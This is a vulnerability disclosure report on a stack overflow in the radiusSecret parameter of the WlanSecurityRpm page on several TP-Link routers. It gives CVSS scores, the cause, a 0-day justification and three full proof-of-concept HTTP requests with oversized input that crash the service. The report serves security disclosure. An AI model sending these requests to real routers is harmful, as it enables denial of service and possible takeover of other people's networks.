





# TP-Link TL-WR940N V2/TL-WR941ND V5/TP-Link WR841N wireless router WlanSecurityRpm Stack Overflow

## 1. Basic Information

- Vulnerability type: Buffer overflow
- Vulnerability description: There is a buffer overflow vulnerability in the TP-Link WR841N V8 and TP-Link TL-WR940N V2/TL-WR941ND V5 wireless router. Its /userRpm/WlanSecurityRpm implementation has a security vulnerability in the processing of radiusSecret GET parameters, allowing remote attackers to use the vulnerability to submit special requests, resulting in buffer overflow, which can seriously lead to the execution of arbitrary OS commands.
- Device model:
   - TP-Link TL-WR841N V8,TP-Link TL-WR940N V2/TL-WR941ND V5

## 2. Vulnerability Value

- Stable reproducibility: yes
- Vulnerability score (refer to CVSS)
   - V2: [8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator ?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1: [9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov /vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)
- Exploit Conditions
   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of exploit
     - Permission constraints: identity authentication is required
     - User interaction: no victim interaction required
   - Scope of Impact: Changed (can affect components other than vulnerable components)
   - Impact indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of exploits: stable recurrence
   - Whether the product is configured by default: there are loopholes in the functional components that are enabled from the factory
- Exploit Effect
   - Denial of service
   - Remote Code Execution (RCE)

## 3. PoC

The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/WlanSecurityRpm.htm?pskSecOpt=2&pskCipher=3&pskSecret=12345670&interval=0&secType=2&wpaSecOpt=3&wpaCipher=3&radiusIp=192.168.0.2&radiusPort=1812&radiusSecret=123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123&intervalWpa=0&wepSecOpt=3&keytype=1&keynum=1&key1=&length1=5&key2=&length2=0&key3=&length3=0&key4=&length4=0&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/WlanSecurityRpm.htm?secType=0&pskSecOpt=2&pskCipher=3&pskSecret=12345670&interval=0&wpaSecOpt=3&wpaCipher=3&radiusIp=&radiusPort=1812&radiusSecret=&intervalWpa=0&wepSecOpt=3&keytype=1&keynum=1&key1=&length1=0&key2=&length2=0&key3=&length3=0&key4=&length4=0&Save=Save
Cookie: Authorization=
Upgrade-Insecure-Requests: 1
```
The PoC of TL-WR941ND V5 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/WlanSecurityRpm.htm?pskSecOpt=2&pskCipher=2&pskSecret=12345670&interval=0&wpaSecOpt=1&wpaCipher=3&radiusIp=192.168.1.2&radiusPort=1812&radiusSecret=123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123&intervalWpa=0&secType=1&wepSecOpt=1&keytype=2&keynum=1&key1=12345&length1=5&key2=&length2=0&key3=&length3=0&key4=&length4=0&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/YOKQCLEBKGHAVJDB/userRpm/WlanSecurityRpm.htm?pskSecOpt=2&pskCipher=2&pskSecret=12345670&interval=0&secType=2&wpaSecOpt=1&wpaCipher=3&radiusIp=192.168.1.2&radiusPort=1812&radiusSecret=123&intervalWpa=0&wepSecOpt=3&keytype=1&keynum=1&key1=&length1=0&key2=&length2=0&key3=&length3=0&key4=&length4=0&Save=Save
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```

The PoC of TP-Link TL-WR940N V2 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/WlanSecurityRpm.htm?pskSecOpt=1&pskCipher=2&pskSecret=12345670&interval=0&secType=2&wpaSecOpt=2&wpaCipher=1&radiusIp=192.168.1.2&radiusPort=1812&radiusSecret=123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123123&intervalWpa=0&wepSecOpt=3&keytype=1&keynum=1&key1=&length1=0&key2=&length2=0&key3=&length3=0&key4=&length4=0&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/WlanSecurityRpm.htm?secType=3&pskSecOpt=1&pskCipher=2&pskSecret=12345670&interval=0&wpaSecOpt=3&wpaCipher=1&radiusIp=&radiusPort=1812&radiusSecret=&intervalWpa=0&wepSecOpt=3&keytype=1&keynum=1&key1=&length1=0&key2=&length2=0&key3=&length3=0&key4=&length4=0&Save=Save
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```

## 4. Vulnerability Principle

When the web management component receives a GET request, its /userRpm/WlanSecurityRpm component implements a security vulnerability in processing the radiusSecret GETparameter. The length of the radiusSecret parameter can be any length and it is put into the stack without checking, resulting in stack overflow. Attackers can use this vulnerability to overwrite the return address, and then be exploited to achieve the effect of remote arbitrary command execution.

The successful simulation interface of the firmware through simulation is as follows:

  

  

  

The target service crashed after sending the PoC:

  

  

## 5. The basis for judging as a 0-day vulnerability

Search the WlanSecurityRpm keyword in the NVD database and find a vulnerability: CVE-2017-14219, which is an XSS vulnerability of TP-Link WRN 240. Its attack vector is an ESSID, which is different from the vulnerability type and parameters of this vulnerability. Therefore, It is judged as a 0-day vulnerability.

Search the WlanSecurityRpm keyword in the CNVD database, and found a vulnerability: CNVD-2013-14724, which is a cross-site request forgery vulnerability of TP-Link TL-WR740N/TL-WR740ND, which is different from this vulnerability type, so it is judged as 0 -day vulnerability.
